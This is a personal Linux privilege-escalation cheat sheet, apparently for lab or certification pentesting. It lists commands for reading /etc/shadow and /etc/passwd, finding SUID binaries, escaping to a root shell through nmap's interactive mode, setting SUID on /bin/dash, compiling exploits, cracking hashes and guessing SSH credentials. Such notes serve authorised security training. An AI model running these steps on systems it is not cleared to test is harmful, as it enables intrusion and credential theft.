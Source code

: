 # ariel-shin Linux - Privilege Escalation 

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt/proof.txt

## Summary 
* [Process](#Process)
* [Compiling Exploits](Compiling-Exploits)
* [Cracking Passwords](#Cracking-Passwords)
* [Automated Scripts](#Automated-Scripts)
* [What to do when youre stuck](#What-to-do-when-youre-stuck)
* [Resources](#Resources)

## Process
* Reverse Shell
	* Check Different Ports, e.g. 80, 443
* Upgrade the shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
* We have credentials
```
sudo su
```
* What's the OS? Version? Architecture? 
```os
cat /etc/*-release
uname -i
lsb_release -a #Debian Based OS
```

* Who are we? Where are we?
```who
id 
pwd
```

* Bash History 
```
history
cat .bash_history
```
* Google anything that looks weird
* See if root is running anything that showed up in the history

* Who uses the box? What users?
```passwd
cat /etc/passwd
grep -vE "nologin | false" /etc/passwd
```

* Can we access /etc/shadow?
```
cat /etc/shadow
ls -al /etc/shadow
```

* What's currently running on the box? What active network services are there?
```ps
ps aux
netstat -antup
```

* Installed? Kernel?
```
dpkg -l #Debian based OS
rpm -qa #CentOS?openSUSE
uname -a # Kernel Exploits
```

* Sensitive Files
```config
find . -iname '*config'
```

* mysql
```mysql
mysql -uroot -ppassword -e 'show databases;' //no spaces for password
```

* See who's logged in 
```w
w
```

Display the list of all the users logged in and out since the file /var/log/wtmp was created
```last
last root 
```

* Find places to write files to
	* View File Permissions
	```
	ls -al
	```

	* If the above command doesn't work, view fstab
	```
	cat /etc/fstab
	//attempt to write to different locations in <mount point>
	echo "a" > test.txt
	```

* Check sticky bit
```
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```
	* Can also change SUID
	```
	chmod 4755 /bin/dash
	```

* Discover tools
```
find / -name wget
find / -name nc<em>
find / -name netcat</em>
find / -name tftp*
find / -name ftp
```

* Look at the original low privilege shell for notes 
* Look for interesting things e.g. nmap 
```
sudo nmap --interactive
nmap> !sh
id 
```
[Back](#summary)

## Compiling Exploits
* gcc
``` 
gcc exploit.c -o exploit
./exploit
```
* mingw32
``` 
TO DO
```
* If exploit fails, try copy and pasting it as a hidden file (e.g. .test.txt) Sometimes, it just fixes it.. 

[Back](#summary)

## Cracking Passwords
* Google it
* Search on hashkiller.co.uk
* John The Ripper
```
john textfile
```

[Back](#summary)

## Automated Scripts
* [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
* [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
```
LinEnum.sh -t
```
	* t: thorough
* [Unix-Privesc-Check](https://github.com/pentestmonkey/unix-privesc-check)
* [Linux Exploit Suggester](https://tools.kali.org/exploitation-tools/linux-exploit-suggester)

[Back](#summary)

## Resources
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Back](#summary)

## What to do when you're stuck
* [Calm down](https://www.youtube.com/watch?v=F28MGLlpP90)
* Take a breath 
* Look for usernames that could have been found
	* Try to ssh by guessing credentials
* Google anything running by root

[Back](#summary)